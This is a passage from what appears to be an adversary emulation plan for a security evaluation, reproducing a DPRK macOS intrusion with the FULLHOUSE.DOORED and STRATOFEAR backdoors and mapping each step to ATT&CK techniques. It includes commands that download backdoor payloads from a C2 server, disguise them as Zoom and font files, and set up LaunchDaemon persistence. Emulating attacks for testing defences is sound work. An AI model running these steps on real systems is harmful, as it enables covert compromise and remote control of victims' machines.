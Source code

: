 ### :biohazard: Procedures

* From the elevated Terminal, execute the Ruby script:

    ```zsh
    cd /usr/local/bin/
    ruby start.rb
    ```

* :arrow_right: On Kali, confirm C2 registration of FULLHOUSE.DOORED
* :camera: Screenshot the new FULLHOUSE.DOORED session registration in the C2
server output.

### :mag: Reference Code & Reporting

> :information_source: **NOTE:** Not all techniques listed in this table
directly map to evaluation substeps

| Red Team Activity | Source Code Link | ATT&CK Technique | Relevant CTI Report |
| ----------------- | ---------------- | ---------------- | ------------------- |
| start.rb downloads FULLHOUSE.DOORED components | [start.rb](../Resources/payloads/start.rb) | T1105 Ingress Tool Transfer | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| FULLHOUSE.DOORED masquerades as Docker files | [start.rb](../Resources/payloads/start.rb) | T1036.005 Masquerading: Match Legitimate Name or Location | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |
| FULLHOUSE.DOORED communicates over HTTP | [comms.cpp](../Resources/FULLHOUSE.DOORED/src/comms.cpp) | T1071.001 Application Layer Protocol: Web Protocols | [Mandiant](https://www.mandiant.com/resources/blog/north-korea-supply-chain) |

## Step 2 - Persistence

### :microphone: Voice Track

Next, DPRK uses FULLHOUSE.DOORED to setup and install STRATOFEAR, the
second-stage backdoor.

DPRK uses FULLHOUSE.DOORED to download STRATOFEAR and its configuration file to
`hogshead (10.55.4.50)` as `/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool`
and `/Library/Fonts/pingfang.ttf.md5` respectively. Then, DPRK uses FULLHOUSE.DOORED
to create a LaunchDaemon for persistence and executes the LaunchDaemon to
execute STRATOFEAR.

On execution, STRATOFEAR loads its configuration file and communicates over
HTTPS to the C2 address defined in the configuration file
(`http://199.88.44.96`).

### :biohazard: Procedures

* Task FULLHOUSE.DOORED to download STRATOFEAR to `hogshead (10.55.4.50)`:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 2, "payload": "stratofear", "arg":"/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool"}'
    ```

* Task FULLHOUSE.DOORED to download STRATOFEAR's configuration file to
`hogshead (10.55.4.50)`:
